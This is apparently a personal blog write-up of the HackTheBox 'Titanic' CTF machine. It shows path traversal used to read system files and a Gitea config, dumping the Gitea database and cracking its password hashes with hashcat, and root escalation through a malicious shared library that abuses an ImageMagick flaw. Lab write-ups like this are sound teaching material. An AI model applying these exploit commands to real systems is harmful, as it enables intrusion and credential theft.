 ```yaml
---
title: HackTheBox | Titanic
published: 2025-02-21
description: "In this writeup, I explain how I gain ownership of Titanic on HackTheBox"
image: "./img/image.jpg"
tags: [CTF, HTB, write-up]
category: 'CTF'
draft: false
---
```



# Nmap Scan

```bash
sudo nmap -sC -sV -T4 10.10.11.55
```
![nmap](image.png)

While exploring the website, I found a Book Your Trip button that triggers a form submission.


![button](image-1.png)

after filing the form and intercept the request with burpsuite, following the redirection

i find /download?ticket= path i tried path traversal and it worked

there is user names developer we can get the user flag from `/home/developer/user.txt`

![pathtraversal](image-2.png)

we continue to see if we can access `/etc/hosts` i found subdomain `dev`

![dev](image-3.png)

add it to my hosts

the app is using gitea so searching for its configuration i found this path

```bash
curl -X GET "http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/conf/app.ini"
```

![cong](image-4.png)

we can see the db is located at `/data/gitea/gitea.db`

after downloading the db we can access it with 
```bash
sqlite3 _home_developer_gitea_data_gitea_gitea.db
```

![db](image-5.png)

from `htb-compiled` writeup i found how to crack the hash

```bash
sqlite3 gitea.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes

hashcat gitea.hashes /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --user
```

i found the developer password

![pass](image-6.png)

time for ssh

```bash
ssh developer@10.10.11.55
```

looking around i found this :
![scripts](image-7.png)

the script is runing as root, and whit the version i took look at google i found this PoC

[Arbitrary Code Execution in `AppImage` version `ImageMagick`](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)

now we can try get the flag :

```bash
gcc -x c -shared -fPIC -o /opt/app/static/assets/images/libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cat /root/root.txt > /tmp/root44_flag.txt");
    exit(0);
}
EOF

touch test.jpg
```

we can find the flag at `/tmp`

![win](image-8.png)
